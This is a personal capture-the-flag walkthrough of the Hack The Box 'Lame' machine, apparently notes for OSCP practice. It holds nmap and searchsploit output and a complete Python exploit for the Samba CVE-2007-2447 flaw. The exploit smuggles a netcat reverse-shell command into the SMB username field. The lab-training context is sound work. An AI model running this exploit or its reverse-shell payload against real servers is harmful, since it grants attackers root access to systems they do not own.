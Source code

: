 #nmapscan 
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-28 23:31 EDT
Nmap scan report for 10.10.10.3
Host is up (0.10s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: DD-WRT v24-sp1 (Linux 2.4.36) (92%), OpenWrt White Russian 0.9 (Linux 2.4.30) (92%), Arris TG862G/CT cable modem (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Linux 2.4.27 (92%), Citrix XenServer 5.5 (Linux 2.6.18) (92%), Linux 2.6.22 (92%), Linux 2.6.27 - 2.6.28 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m23s, deviation: 2h49m45s, median: 21s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-07-28T23:32:36-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 445/tcp)
HOP RTT       ADDRESS
1   100.49 ms 10.10.14.1
2   101.21 ms 10.10.10.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.16 seconds
```


#enumeration 
port 21,139,22,445 were open 
first tried anonnymous ftp login was successful but nothing useful as directory listing was there
smbclient was also disabled as there was no smb enumeration
so we tried to find exploits for 
1.vsftpd 2.3.4
2.smbd 3.0.20-Debian
searcploit result:
```
searchsploit samba 3.0.20
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                                      | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                            | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                                       | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                                                                       | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                               | linux_x86/dos/36741.py
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
┌──(root💀kali)-[/home/archi]
└─# searchsploit vsftpd 2.3.4
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                      | unix/remote/17491.rb
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
Both of them were metasploit ones but some wise men advised me not to use metasploit at one go for OSCP so I tried to find some exploits online
I found a very useful article with describes full enumeration and seraching exploit or CVE via nmap 
link:https://www.hackingarticles.in/smb-penetration-testing-port-445/
However the nmap script failed 
After a few google searches found tha samba-3.0.20 is vulnerable to RCE.I also 
found this https://www.exploit-db.com/exploits/16320 the same exploit as the searchsploit one and I also got the CVE:2007-2447 from this.
Finally found a python script in github which appeared useful.
```
#!/usr/bin/python
# -*- coding: utf-8 -*-

# From : https://github.com/amriunix/cve-2007-2447
# case study : https://amriunix.com/post/cve-2007-2447-samba-usermap-script/

import sys
from smb.SMBConnection import SMBConnection

def exploit(rhost, rport, lhost, lport):
        payload = 'mkfifo /tmp/hago; nc ' + lhost + ' ' + lport + ' 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago'
        username = "/=`nohup " + payload + "`"
        conn = SMBConnection(username, "", "", "")
        try:
            conn.connect(rhost, int(rport), timeout=1)
        except:
            print("[+] Payload was sent - check netcat !")

if __name__ == '__main__':
    print("[*] CVE-2007-2447 - Samba usermap script")
    if len(sys.argv) != 5:
        print("[-] usage: python " + sys.argv[0] + " <RHOST> <RPORT> <LHOST> <LPORT>")
    else:
        print("[+] Connecting !")
        rhost = sys.argv[1]
        rport = sys.argv[2]
        lhost = sys.argv[3]
        lport = sys.argv[4]
        exploit(rhost, rport, lhost, lport)
```
link:https://github.com/amriunix/CVE-2007-2447
i also had found other links but they were not that useful or I couldn't understand them
other links:https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851
This python scrpit was just OP as we got to root directly
Now I tried the metasploit one
I also tried the ftp one but it was not exploitable through meta sploit as well.

#doubts:ftp directory listing
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
Can we enable it??
https://serverfault.com/questions/300782/ftp-not-showing-files-or-directories

